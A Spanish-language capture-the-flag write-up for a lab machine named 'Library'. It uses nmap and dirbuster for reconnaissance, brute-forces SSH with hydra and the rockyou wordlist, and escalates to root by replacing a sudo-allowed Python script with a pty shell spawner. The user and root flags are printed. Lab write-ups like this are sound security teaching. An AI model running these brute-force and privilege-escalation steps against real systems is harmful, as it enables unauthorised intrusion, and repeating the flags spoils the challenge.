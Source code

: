 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![Imagen](images/Pasted_image_20250221170416.pngg)

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![Imagen](images/Pasted_image_20250221170150.png)

El único interesante puede ser el directorio de  `/images/`

![Imagen](images/Pasted_image_20250221170150.png)

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![Imagen](images/Pasted_image_20250221170150.png)

Que puede ser `meliodas`por como vemos en la página anterior.

![Imagen](images/Pasted_image_20250221170150.png)

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![Imagen](images/Pasted_image_20250221170150.png)

```
ssh meliodas@10.10.31.106
```

![Imagen](images/Pasted_image_20250221170150.png)

Obtenemos la flag de`user.txt`.

![Imagen](images/Pasted_image_20250221170150.png)

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![Imagen](images/Pasted_image_20250221170150.png)

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![Imagen](images/Pasted_image_20250221170150.png)

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![Imagen](images/Pasted_image_20250221170150.png)

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![Imagen](images/Pasted_image_20250221170150.png)

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![Imagen](images/Pasted_image_20250221170150.png)

```
e8c8c6c256c35515d1d344ee0488c617
```












